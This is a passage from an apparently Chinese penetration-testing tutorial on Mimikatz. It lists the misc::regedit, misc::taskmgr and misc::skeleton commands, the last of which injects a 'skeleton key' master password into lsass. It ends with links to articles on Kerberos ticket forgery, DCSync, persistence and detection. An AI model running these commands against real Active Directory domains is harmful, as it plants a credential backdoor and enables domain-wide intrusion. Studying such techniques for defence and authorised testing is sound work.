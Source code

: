 ![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007173338931.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


打开注册表  


```text
misc::regedit
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

使用mimikatz万能钥匙注入到lsass进程中

```text
misc::skeleton
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007173455914.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​  


打开进程管理器

```text
misc::taskmgr
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

## ​​​​​​​关于AD渗透中利用Mimikatz的国内外优秀文章

* [Mimikatz和Active Directory Kerberos攻击](https://adsecurity.org/?p=556)
* [使用Mimikatz DCSync转储域中所有管理员的明文密码](https://adsecurity.org/?p=2053)
* [攻击者如何使用Kerberos Silver Ticket来利用系统](https://adsecurity.org/?p=2011)
* [Mimikatz DCSync的使用，开发和检测](https://adsecurity.org/?p=1729)
* [Active Directory持久性潜伏＃12：恶意安全支持提供程序（SSP）](https://adsecurity.org/?p=1760)
* [Active Directory持久性偷偷摸摸的11：目录服务还原模式（DSRM）](https://adsecurity.org/?p=1714)
* [Kerberos金票现在更金](https://adsecurity.org/?p=1640)
* [与信任有关的一切–伪造Kerberos信任票证以欺骗跨Active Directory信任的访问](https://adsecurity.org/?p=1588)
* [检测Mimikatz的使用](https://adsecurity.org/?p=1567)

